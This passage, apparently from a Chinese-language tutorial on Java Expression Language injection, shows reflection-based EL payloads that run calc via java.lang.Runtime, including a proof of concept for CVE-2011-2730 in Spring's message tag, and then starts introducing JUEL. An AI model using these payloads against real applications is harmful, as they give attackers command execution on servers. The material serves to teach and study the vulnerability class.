 ```java
// 执行命令.
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

<div align=center><img src="./images/3.png"></div>

## CVE-2011-2730
命令执行`PoC`如下:

```java
<spring:message text=
"${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```

## JUEL
`EL`曾经是`JSTL`的一部分, 然后`EL`进入了`JSP 2.0`标准. 现在`EL API`已被分离到包`javax.el`中, 并且已删除了对核心`JSP`类的所有依赖关系, 也就是说, 现在`EL`表达式所依赖的包`javax.el`等都在`JUEL`相关的`jar`包中.

[JUEL](http://juel.sourceforge.net/)(Java Unified Expression Language)是统一表达语言轻量而高效级的实现, 具有高性能、插件式缓存、小体积、支持方法调用和多参数调用、可插拔多种特性.

例如如下代码, 利用反射调用`Runtime`类方法实现命令执行:

```xml
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-api</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-spi</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
```